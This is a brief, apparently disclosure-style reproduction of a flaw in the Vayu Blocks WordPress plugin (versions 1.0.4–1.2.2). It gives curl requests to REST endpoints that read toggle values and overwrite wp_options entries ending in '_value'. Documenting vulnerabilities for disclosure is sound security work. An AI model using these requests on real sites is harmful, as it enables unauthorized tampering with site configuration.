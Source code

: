 1. install wordpress as described [here](https://ubuntu.com/tutorials/install-and-configure-wordpress). 
2. install vayu plugin ( 1.0.4 <= version <= 1.2.2 )
3. create any dummy record in the wordpress database inside the wp_options table ( here i created using ``INSERT INTO wp_options (option_name, option_value, autoload) VALUES ('test_value', 'original', 'no');`` ).
4. fetch the data using ``curl "http://<server-ip>/wp-json/vayu-blocks/v1/get-toggle-switch-values"``
5. update the using ``curl "http://1<server-ip>/wp-json/vayu-blocks/v1/save-toggle-switch" -H "Content-Type: application/json" -d '{"key":"<key>","value":"<value>"}'`` -> this will update any data ending with _value inside the wp_options table ( using test as key -> test_value).
